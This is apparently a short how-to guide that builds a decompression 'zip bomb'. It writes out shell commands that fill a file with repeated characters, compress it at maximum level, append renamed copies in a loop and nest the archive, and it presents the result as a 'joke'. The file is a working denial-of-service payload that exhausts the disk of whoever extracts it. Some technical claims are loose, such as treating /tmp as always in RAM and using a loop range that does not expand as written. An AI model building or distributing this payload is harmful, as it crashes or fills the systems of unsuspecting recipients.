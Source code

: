 First, create a huge file with a repeating letter with `yes` utility:

```
yes A >> funny0.txt
```

**WARNING!** This will quickly fill up all the available disk space, so be sure to kill the process after a couple of seconds

Next, compress it to the maximum amount, using `zip` utility:

```
zip -9 joke.zip funny0.txt
```

Now, rename funny0.txt and append it to the archive:

```
mv funny0.txt funny1.txt
zip -9g joke.zip funny1.txt
```

Continue doing so until you're satisfied

You can also automate the process of appending to the archive, by running the following script:

```
for i in {1..big_number}; do zip -9g joke.zip funny$i.txt; mv funny$i.txt funny$((i+1)).txt; done
```

Thus, if big_number == 1000 and the size of funny0.txt is 10 GB, then after decompression around 10 TB of space will be wasted, all the while the compressed archive will weight somewhere around 1 GB or maybe even less.

Unless you want to ruin your SSD, don't do this on your main filesystem, better store it in /tmp/ as it's a part of your RAM, however make sure to not run out of it, or else your system might crush

After that, you can compress the zip file again with zip and continiously do so until your zip bomb is the size of the universe

Algorithms with better compression, like xz may yield better results
